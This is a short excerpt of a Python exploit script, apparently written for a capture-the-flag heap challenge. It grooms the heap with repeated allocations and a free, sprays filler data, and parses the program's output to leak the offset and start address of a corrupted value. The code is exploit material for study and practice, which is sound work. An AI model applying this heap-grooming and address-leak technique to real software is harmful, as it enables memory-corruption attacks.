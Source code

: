```py

    for i in range(0x10):

        malloc(0x20000, data)

    data = []

    for i in range(0x10):

        data.append(['X' * (0x1000 - 1), 1])

    malloc(0x1000, data)


    delete()


    data = []

    for i in range(0x10):

        data.append(['X' * (0xf0 - 1), 0])

    malloc(0xf0, data)


    #every malloc 0x10 chunk

    #set 0x58585858 = 0x58585857

    callfuc(0x100)

    show(0, 0x100)

    index = 0

    offest = 0

    out = ''

    for i in range(0x100):

        out = p.recvline()

        if 'W' in out:

            index = i

            break

    out = out[12 : ]

    offest = out.index('W')

    log.info('0x58585858 is : %d' % index)

    log.info('offest is : %d' % offest)

    log.info('start addr is : ' + hex(0x58585858 - offest))

    block_start = (index / 0x10) * 0x10

    log.info('block start is : ' + hex(block_start))
```